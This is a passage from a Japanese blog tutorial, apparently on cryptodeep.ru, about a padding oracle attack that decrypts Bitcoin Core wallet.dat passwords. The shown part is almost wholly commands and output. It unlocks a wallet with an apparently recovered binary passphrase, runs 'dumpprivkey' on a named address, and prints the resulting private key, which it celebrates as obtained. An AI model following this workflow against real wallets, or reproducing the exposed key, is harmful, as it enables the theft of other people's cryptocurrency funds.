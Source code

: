 

<hr class="wp-block-separator has-alpha-channel-opacity"/>



<blockquote class="wp-block-quote">
<p><strong><code>dumpprivkey "address"</code></strong>コンソールからコマンドを使ってみましょう<strong><code>Bitcoin Core</code></strong></p>
</blockquote>



<p><strong>チーム:</strong></p>



<pre class="wp-block-code"><code>walletpassphrase 1111111001010001100010110100011010011111011101001010111001011110010111000011101101000101010100001111000000011110010001110001110001011000111101001101110010010010101001101011110100010010100011011011001010111100110100110011100100001110110101001110111011100101 60
</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<pre class="wp-block-code"><code>dumpprivkey 1BtcyRUBwLv9AU1fCyyn4pkLjZ99ogdr7b</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/doc/walletdatgif04.gif" alt="人気のビットコインコアウォレットのWallet.datパスワード復号化に対するOracle攻撃のパディング"/></figure>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<blockquote class="wp-block-quote">
<p><strong>結果：</strong></p>
</blockquote>



<pre class="wp-block-code"><code>KyAqkBWTbeR3w4RdzgT58R5Rp7RSL6PfdFDEkJbwjCcSaRgqg3Vz
</code></pre>



<h2 class="wp-block-heading">秘密鍵を受け取りました!</h2>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<blockquote class="wp-block-quote">
<p>ライブラリをインストールしましょう<code><strong>Bitcoin Utils</strong></code></p>
</blockquote>



